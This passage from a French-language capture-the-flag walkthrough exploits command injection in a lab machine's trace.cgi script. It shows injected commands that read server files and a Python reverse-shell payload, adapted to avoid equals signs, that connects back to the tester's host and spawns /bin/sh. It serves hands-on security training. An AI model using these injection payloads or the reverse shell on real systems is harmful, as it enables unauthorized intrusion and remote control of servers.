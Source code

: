 ```console
root@blinils:~# export WEST='JUNK; cat /var/www/html/admin.php'
root@blinils:~# curl -v --silent -G "http://192.168.56.101/cgi-bin/lawrence/trace.cgi" \
--data-urlencode "ip=$WEST" 2>&1 | sed -n '/<pre>/,/<\/pre>/p'
<pre>
<html>
<body>


<form name="form1" action="" method="post">
<input type="password" name="password" />
<input type="hidden" name="sub" value="submit" />
<input type="submit" value="sub" />
</form>



</body>
</html></pre>
```

À présent, il s'agit d'obtenir un shell sur le serveur ! Et le moins que l'on puisse dire, c'est que ça n'a pas été une mince affaire. Si l'on voit assez rapidement que le répertoire ```/tmp``` est un bon endroit pour le déposer — www-data n'a pas les droits en écriture dans le répertoire ```/var/www/html``` — toutes mes tentatives avec PHP, [__netcat__](https://nc110.sourceforge.io/), curl, wget ou encore bash inspirées du [_Reverse-shell one-liner Cheat Sheet_](https://www.asafety.fr/reverse-shell-one-liner-cheat-sheet/) de Yann Cam ont été semblables à un coup d'épée dans l'eau.

Fort heureusement, le proxy [__Burp__](https://portswigger.net/burp/documentation/desktop/getting-started/proxy-setup/browser) est venu à la rescousse, à la suite de trop nombreux soucis répétés d'encodage. Son module _Repeater_ permet de modifier beaucoup plus facilement les données de la requête avant envoi, et donc à la fois de corriger le chemin ```/cgi-bin/trace.cgi``` en ```/cgi-bin/lawrence/trace.cgi``` dans le formulaire et le champ ```ip``` dans l'URL. Seul hic : l'encodage du signe égal, qui conserve sa valeur en hexadécimal ```%3d``` ce qui plait moyennement à l'interpréteur Python.

```console
root@blinils:~# curl -v --silent -G "http://192.168.56.101/cgi-bin/lawrence/trace.cgi" \
--data-urlencode "ip=$WEST" 2>&1 | sed -n '/<pre>/,/<\/pre>/p'
<pre>
import socket,subprocess,os;s%3dsocket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>",<PORT>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p%3dsubprocess.call(["/bin/sh","-i"]);
</pre>
```

Astuce : l'assignation d'une variable en Python peut très bien se faire sans signe égal, grâce à la méthode ```__setitem__```.

```import socket,subprocess,os;globals().__setitem__("s", socket.socket(socket.AF_INET,socket.SOCK_STREAM));s.connect(("192.168.56.102",12345));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);globals().__setitem__("p", subprocess.call(["/bin/sh","-i"]));' > /tmp/shell.py```

Ainsi, la bonne valeur du paramètre ```ip``` transmis via Burp ressemble à ceci.

```127.0.0.1;echo 'import socket,subprocess,os;globals().__setitem__("s", socket.socket(socket.AF_INET,socket.SOCK_STREAM));s.connect(("192.168.56.102",12345));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);globals().__setitem__("p", subprocess.call(["/bin/sh","-i"]));' > /tmp/shell.py```

Ah au fait, c'est __python3__ qui est installé ! Il faudra donc appeler le binaire ```/usr/bin/python3``` et non ```python``` simplement.

```console
root@blinils:~# export WEST='JUNK; which python'

root@blinils:~# curl -v --silent -G "http://192.168.56.101/cgi-bin/lawrence/trace.cgi" \
--data-urlencode "ip=$WEST" 2>&1 | sed -n '/<pre>/,/<\/pre>/p'
<pre>
</pre>

root@blinils:~# export WEST='JUNK; which python3'
```